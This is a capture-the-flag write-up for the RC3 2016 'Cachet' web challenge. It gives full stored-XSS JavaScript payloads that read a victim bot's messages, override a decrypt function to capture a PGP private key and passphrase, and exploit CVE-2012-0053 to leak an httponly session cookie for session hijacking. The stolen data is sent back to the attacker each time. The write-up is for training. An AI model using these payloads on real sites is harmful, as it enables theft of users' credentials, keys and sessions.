

RC3 2016 / Cachet
November 18, 2016
Description
We need you. Things have been crazy with all the leaks lately. Apparently somebody gave one of our clients a tip that Julian Assange has acquired some devastating data about the US government. Our client has asked us to get this data for them. They’re saying they can sell this data and makes lots of money of off it or something. Doesn’t matter, they’re paying us as long as we can get the data for them. The only tip we have is that Julian has been using this new security and privacy focused messaging app called Cachet to communicate with the source of the leaked data. He’s supposedly taken a liking to it and uses it pretty frequently. Our interns looked at it but haven’t had any luck, so we need your expertise on this one.
The Challenge
This challenge was quite interesting as the author added a bunch of red herrings, making the challenge a lot less obvious to solve.
The challenge consisted of a secure messaging webapp. After registering an account, a user can send messages to a recipient, encrypting the message with the recipient’s PGP public key. Upon receiving the encrypted message, the recipient would then decrypt it using its private key.
Here is what the webapp looks like :

Recon
Before registering an account, I started off by doing some recon and checking the HTML source code.
Visiting the robots.txt file, we can see :
Testing each of them out, only /dev worked. We were brought to some kind of test page.
Checking the source code :
This is where the red herrings begin, as most of the leaked PHP source code here is irrelevant. Initially, I thought this could be a command injection challenge as line 21 and 22 are clearly vulnerable, but that wasn’t the case.
The key thing we had to understand here was that a dev server was available on port 8000 (as stated in the comment of line 7 and 8).
Port 8000 (Dev server)
The development server is basically a clone of the production server on port 80. The only difference here is that there are no PHP scripts. The dev server only static HTML files. Not much we can do here.
There are no robots.txt files on this server, but if we visit the /setup page that were specified in the production’s robots.txt, we get a bash script called test.sh.
Nothing we can do with it though, yet another red herring.
The header of a response to the dev server is interesting though :
Server: Apache/2.2.21 (Unix)
Access-Control-Allow-Origin: http://54.172.225.153
Access-Control-Allow-Credentials: true
The first header gives us the version of Apache being used for the development server.
The second and third header basically means that session cookies are shared between http://54.172.225.153 and http://54.172.225.153:8000.
Finding Julian Assange
Based off the description, the goal of the challenge is to read Julian Assange’s encrypted messages.
So we start off by creating an account and logging in:
Now let’s figure out what Julian Assange’s account is.
The webapp offers a search field where we can search for users matching a given name.
As the webapp is probably using the SQL LIKE keyword, we can list all the available users :
Seems like Julian Assange is user #3.
Hacking Julian Assange
The webapp has 3 main functionalities :
- Send a message
- View unread messages
- View read messages
This points to XSS vulnerabilities. So let’s look at the request for sending an encrypted message.
Send a message to Julian Assange :
… and intercept the request in Burpsuite :
There are four parameters, the encrypted PGP message (encMessage), the recipient ID (toID), subject and origMessage.
Let’s inject some simple XSS payloads like <img src="http://requestb.in/XXXXX"> in the encMessage parameter :
After some time, we receive a response from Julian Assange! Seems like Julian Assange is reading each message we send him.
At this point, we have to read Julian Assange’s emails. This requires four important components.
We need :
- The pincode to gain access to view the encrypted messages.
- The PGP private key to decrypt the encrypted messages.
- The passphrase for the private key.
- Julian Assange’s session cookie
We can create a script to view the list of encrypted messages.
function send_back(data) {
var req = new XMLHttpRequest();
req.open("POST", "http://54.172.225.153/send.php");
req.setRequestHeader("Content-type","application/x-www-form-urlencoded");
req.send("encMessage=" + encodeURIComponent(data) + "&toID=8&subject=Test&origMessage=");
}
var req = new XMLHttpRequest();
req.onreadystatechange=function() {
if(req.readyState==4) {
send_back(req.responseText)
}
}
req.withCredentials = true;
req.open('GET','http://54.172.225.153/read.php');
req.send(null);
When Julian Assange will view our message, he will send an ajax request to /read.php. We then take the response from that ajax request
and send it back to us via /send.php.
Now if we check our unread messages on our account, we see a new message from Julian Assange!
Opening the message, we now know that Julian Assange’s pin code is his birthday. The second email is probably the data we have to steal :
Now we need to get Julian Assange’s private key and passphrase. Before we do, we must understand the use case for reading an encrypted message.
Here’s what Julian Assange does :
- He goes to /unread.php to view his unread messages.
- He clicks on our malicious mail.
- He gets a prompt and enters his pincode.
- Our XSS payload gets executed
- He enters his passphrase and public key
- He presses on the
Decryptbutton.
If we look at the source code for the decrypt button, we notice that a decryptMessage() function is being called.
Since the bot triggers the decryptMessage() function AFTER our XSS payload gets executed, we should be able to override the decryptMessage() with a malicious version.
Here is an updated version of our javascript payload:
function decryptMessage() {
var privkey = document.getElementById("privkey").value.trim();
var user_pass = document.getElementById("msg-subject").value;
params = '' + privkey + '.'+ user_pass;;
send_back(params);
};
function send_back(data) {
var req = new XMLHttpRequest();
req.open("POST", "http://54.172.225.153/send.php");
req.setRequestHeader("Content-type","application/x-www-form-urlencoded");
req.send("encMessage=" + encodeURIComponent(data) + "&toID=8&subject=Test&origMessage=");
}
When Julian Assange will hit the decrypt button, our malicious function will be called instead of the real one.
Our decryptMessage() will take the private key and passphrase that Julian Assange entered previously and will send it back to us.
Here’s the result after sending our new payload :
We now have the private PGP key and the passphrase (4ll_H41L_w1k1L34K$-03071971)
Stealing Julian Assange’s Session Cookie
We have everything in order to decrypt Julian Assange’s emails. But in order to actually view the encrypted email, we have to
hijack Julian Assange’s session. To do this, one would normally steal the cookies through document.cookie. Unfortunately,
the cookie is httponly, which makes it impossible for us to fetch it through javascript.
Remember the development server from earlier?
It turns out that the development server’s version isn’t the same as the production one. Why is that?
After some research on Apache 2.2.21, we discover that it is vulnerable to CVE-2012-0053.
Basically, if we send an invalid header to the development server, Apache will respond with a 400 error message as well as the complete header and value causing the error.
This means that if we send an invalid cookie (such as a very long cookie), Apache will return a 400 message and spit out the cookie in the response body.
And since this development server has specified that the session cookies are shared between http://54.172.225.153 and http://54.172.225.153:8000, it should work.
So let’s update our XSS script again :
function setCookies (good) {
// Construct string for cookie value
var str = "";
for (var i=0; i< 819; i++) {
str += "x";
}
// Set cookies
for (i = 0; i < 10; i++) {
// Expire evil cookie
if (good) {
var cookie = "xss"+i+"=;expires="+new Date(+new Date()-1).toUTCString()+"; path=/;";
}
// Set evil cookie
else {
var cookie = "xss"+i+"="+str+"; path=/;";
}
document.cookie = cookie;
}
}
function send_back(data) {
setCookies(1);
var req = new XMLHttpRequest();
req.open("POST", "http://54.172.225.153/send.php");
req.setRequestHeader("Content-type","application/x-www-form-urlencoded");
req.send("encMessage=" + encodeURIComponent(data) + "&toID=8&subject=Test&origMessage=");
}
setCookies()
var req = new XMLHttpRequest();
req.onreadystatechange=function() {
if(req.readyState==4 ) {
send_back(req.responseText)
}
}
req.withCredentials = true;
req.open('GET','http://54.172.225.153:8000/');
req.send(null);
This script basically creates 10 cookies containing 819 characters each.
It then sends a request to the development server. The req.withCredentials forces the request to the development server to send the large cookies we’ve created beforehand.
When the server responds, the content of the page is then sent back to use as usual.
Here’s the result :
Getting our data
Now that we have the session cookie, we can hijack Julian Assange’s session, check his emails, enter the PGP private key and passphrase and decrypt the data.
Before decryption :
After decryption :
Flag : RC3-2016-12409901